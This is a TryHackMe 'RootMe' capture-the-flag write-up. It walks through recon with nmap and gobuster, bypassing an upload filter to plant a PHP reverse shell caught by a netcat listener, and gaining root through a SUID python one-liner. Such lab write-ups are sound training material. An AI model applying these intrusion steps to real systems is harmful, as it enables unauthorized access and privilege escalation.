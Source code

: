# RootMe
> 4lch3my | March 07, 2023
-------------------
#### This is a machine that allows you to practise web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/rrootme)

## Tasks
##### 1. Deploy the machine
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.

##### 2. Reconnaissance

This is where the basics of recon comes into play. To start, I use [nmap] which is default option on the perosnal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 19:52 CET
Nmap scan report for 10.10.117.20
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```
From this [nmap] scan we can determine that 2 port are open: [SSH] on port 22 and a [http] webserver on port 80. Lets start with the webserver enumeration.
<br>

Gobuster is my go-to enum tool, the setup instructions for it can be found [here]. Let's run a basic scan against our machine: `gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
This might take a while to run, but we can see the outpot below:
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://MACHINE_IP/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/06 19:54:35 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://MACHINE_IP/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://MACHINE_IP/css/]
/js                   (Status: 301) [Size: 309] [--> http://MACHINE_IP/js/]
/panel                (Status: 301) [Size: 312] [--> http://MACHINE_IP/panel/]
Progress: 35498 / 220561 (16.09%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/03/06 19:57:33 Finished
===============================================================
```
We have found multiple directory listings from the [gobuster] search. Let's look at them one by one:
<br>

`/panel` contains an upload form where we can choose a file, and upload it.
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/upload.png?raw=true)
Let's try to upload a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). In the default configuration I have set the `$port` to `1234` and the `$ip` to the IP of our connection IP (this can be seen in the top right corner on the TryHackMe room page in a green bubble). In the mean time, we will open a [netcat] listener with option `-lvp` in a new terminal tab: `nc -lvp 1234`. 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/fail.png?raw=true)

##### 3. Getting a shell

Hmmm, it seems like no PHP files can be uploaded. We can either manually test with other file types (example: .php5, .phtml, .php.html) or we can use [sAjibuu's Upload Bypass](https://github.com/sAjibuu/upload_bypass/) repo to automate the process. If manually uploadign we can visit `MACHINE_IP/uploads/` to see the uplaoded files and if we use the automated process, we see that our [netcat] listener has cought a shell by itself.

```
Listening on [0.0.0.0] (family 0, port 1234)
Connection from MACHINE_IP 45998 received!
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:23:11 up  1:32,  0 users,  load average: 0.05, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Now we finally can start looking for the first flag in `user.txt`.
<br>

First command to is: `find / -type f -name user.txt`. This will look for a `file` containing `user.txt` in the name. And after a quick second ot two, we see our readable file right in the middle:
```
find: '/proc/1671/fd': Permission denied
find: '/proc/1671/map_files': Permission denied
find: '/proc/1671/fdinfo': Permission denied
find: '/proc/1671/ns': Permission denied
/var/www/user.txt
find: '/var/spool/rsyslog': Permission denied
find: '/var/spool/cron/atjobs': Permission denied
find: '/var/spool/cron/crontabs': Permission denied
find: '/var/spool/cron/atspool': Permission denied
```
To get the file contens we can `cat`-it out:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/user.png?raw=true)

##### 3. Privilege escalation

As we are on the machine, we can start looking at some files and permissions what we can abuse. Let's run the `find / -user root -perm /4000` command, to determine if there are any visible for us from the get-go. 
```
find: '/snap/core/8268/var/spool/rsyslog': Permission denied
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/usr/bin/python
find: '/snap/core/9665/etc/chatscripts': Permission denied
```
Now we know that python can be run on this machine and maybe we can use it to escalate our priviledges. We can use [GTFOBins](https://gtfobins.github.io/) to check on this.
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/gtfo.png?raw=true)
<br>

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/gtfo_2.png?raw=true)
Now let's run it against the root user: `python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`
<br>

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/root.png?raw=true)

And there we go, we are `root` ! We can grab the flag now!


#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeup's of mine or interested in some of my coding work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my